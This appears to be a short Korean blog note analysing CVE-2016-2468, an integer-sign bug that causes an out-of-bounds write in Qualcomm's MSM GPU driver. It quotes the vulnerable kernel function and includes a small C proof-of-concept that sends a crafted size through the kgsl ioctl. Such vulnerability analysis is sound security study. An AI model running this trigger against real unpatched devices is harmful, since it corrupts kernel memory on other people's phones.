 ```yaml
---
layout: post
title: "CVE-2016-2468"
date: 2016-06-13 13:31:59 +0900
comments: true
categories: 
---
```


[Disclosure of CVE-2016-2468, OOB write in Qualcomm MSM GPU driver](http://retme.net/index.php/2016/06/12/CVE-2016-2468.html)

* `size` 의 하위 32 bit 가 0x80000000 보다 크면, `len` 이 음수가 된다. 
* 그러면 루프에 들어가지 않고, 바로 `sg_mark_end()` 가 불린다.
* 그러면 `sglen` 이 0 인 상황에 변함이 없으므로, `sg_mark_end(&memdesc->sg[-1]);` 이 된다.

```
static int
_kgsl_sharedmem_page_alloc(struct kgsl_memdesc *memdesc,
	struct kgsl_pagetable *pagetable,
	size_t size)
{
	int ret = 0;
	int len, page_size, sglen_alloc, sglen = 0;
	unsigned int align;

	//...snip...

	len = size;
	while (len > 0) {
		//...snip...
	}
	memdesc->sglen = sglen;
	memdesc->size = size;
	sg_mark_end(&memdesc->sg[sglen-1]);
}
```

PoC 는,

```
void kgsl_poc() {
	int fd = open("/dev/kgsl-3d0",0);
	struct kgsl_gpumem_alloc_id arg;
	
	arg.flags = 0;
	arg.size = 0xa18fb010b0c08000;
	ioctl(fd,IOCTL_KGSL_GPUMEM_ALLOC_ID,&arg);
}
```

사이즈가 다른 변수간에 형변환하다가, neg 가 되버리는 이슈.
